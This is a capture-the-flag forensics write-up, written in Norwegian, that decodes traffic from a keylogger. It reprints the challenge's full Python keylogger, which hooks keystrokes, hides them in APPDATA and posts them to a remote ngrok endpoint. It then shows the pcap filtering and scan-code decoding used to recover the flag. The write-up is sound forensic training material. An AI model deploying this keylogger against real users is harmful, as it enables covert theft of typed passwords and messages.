 # Keyscanner
En gøy forensics oppgave med litt databehandling der man måtte integrere forståelse av nettverkslogger med et script som sender `http`-requests. 

# Oppgave av Vealending 
Our CSIRT recently discovered a keylogger running on one of our systems.
They've managed to capture the network traffic containing the keylogger's activity and the offending script itself.
Can you figure out what information was compromised?

# Løsning
Vi får nettverkstraffikken `capture.pcapng` og `Keylogger.py`. Ved å lese skriptet får vi informasjon om hvilken server keyloggingsaktiviteten ble sendt til. 
```python
import keyboard
import requests
import ctypes
import uuid
import os


class Logger:
    MAX_FILE_SIZE = 128
    APPDATA_FOLDER = os.getenv("APPDATA")
    FILE_NAME_PREFIX = "."
    FILE_NAME_SUFFIX = ".sc"
    REMOTE_SERVER = "http://c784-89-11-175-7.eu.ngrok.io/l0gg3r_3ndp0in7"
    REMOTE_HEADERS = {"Content-Type": "application/octet-stream"}

    def __init__(self):
        self.file_path = os.path.join(
            self.APPDATA_FOLDER,
            self.FILE_NAME_PREFIX + str(uuid.uuid4()) + self.FILE_NAME_SUFFIX,
        )
        self.file_size = 0

    def _get_layout(self):
        layout_name = ctypes.create_unicode_buffer(9)
        if ctypes.WinDLL("user32").GetKeyboardLayoutNameW(layout_name):
            return layout_name.value
        return None

    def _write_to_file(self, event):
        with open(self.file_path, "ab") as f:
            try:
                f.write(bytes([event.scan_code]))
            except ValueError:
                pass  # Discard extended scan codes

        self.file_size = os.path.getsize(self.file_path)

        if self.file_size >= self.MAX_FILE_SIZE:
            with open(self.file_path, "rb") as f:
                response = requests.post(
                    self.REMOTE_SERVER,
                    headers=self.REMOTE_HEADERS,
                    params={"layout": self._get_layout()},
                    data=f,
                )

            if response.status_code == 200:
                os.remove(self.file_path)

            self.file_path = os.path.join(
                self.APPDATA_FOLDER,
                self.FILE_NAME_PREFIX + str(uuid.uuid4()) + self.FILE_NAME_SUFFIX,
            )
            self.file_size = 0

    def start_logging(self):
        keyboard.hook(self._write_to_file)
        keyboard.wait()


if __name__ == "__main__":
    keylogger = Logger()
    keylogger.start_logging()

```
Vi filtrerer slik `http.request.uri matches "/l0gg3r_3ndp0in7"` og lagrer datene som var tilsendt som plaintext. Deretter kan vi lettere utvinne all dataene og lagre det i en fil. For eksempel brukte jeg `cat data.txt | grep "0000  " -A 8 -B 0 > new.txt`.
Et eksempel packet inneholder også `layout` som beskriver hvilken keyboard layout var blitt brukt. Dette er nyttig for å dekryptere dataene ved skankodene.

Python-skriptet blir:
```python
scan_codes = {
    "02": "1",
    "03": "2",
    "04": "3",
    "05": "4",
    "06": "5",
    "07": "6",
    "08": "7",
    "09": "8",
    "0a": "9",
    "0b": "0",
    "0c": "+",
    "0d": "\\",
    "0e": "<"
    #... osv
}

with open('new.txt') as f:
	for line in f:
		if len(line) < 5: continue
		codes = line.split(' ')
		for code in codes:
			if len(code) > 2: continue
			try:
				print(scan_codes[code], end='')
			except:
				continue
```

```console
stange@ericjoshua key-scanner % python3 decrypt.py
kp *tabtabtabtabkp *SggSlloobablal  SsSsttraratteeggyy  SuuSpdpadatete a nandd  SuSuppccoommiinngg  SqqSuueeararttee<<<<<<<<<<aarrttererllyy S rSreevvee<<ieiwewenterenterSdSdeaerar  tetaea<<<<<<StSteaema m SmSmeemmererss<<<<<<bbererss,,enterenterenterenterSi iS hohoppee  tthihiss  memesssasabebe<<<<gege  fifindsnd sy you ou iinn  ggoooodd  hehaeatt<<llthth  anand d hihiggh h ssppiiriritsts.. S aSass w wee  aapppprrooaachch  tthhee  eenndd  ooff  tthhwee  uu<q<quueses<<<a<rartteerr<<rr..<<, , 
```
Den interessante delen viser flagget: `fflalgag^kp *77kp *^55cc44nnS-S-cc00dd3355S-S-44rr33S--S44ww335500mm33S11SS--SbbSuuS77S--Scc44SSSnnS<<<<<<ccS44S<<44SnnSS--SSyyS00uuS--Srr3344SddSS-S-55pepecc1144SlSl<<<<<<<<<<33cc1144SllSS--SccShhS44rr44cc7733SrSr55S++SS3S3..--,,S11SS--S--,,..S++S^kp *00kp *^`

En del av det er `flag{5c4n_c0d35_` osv.


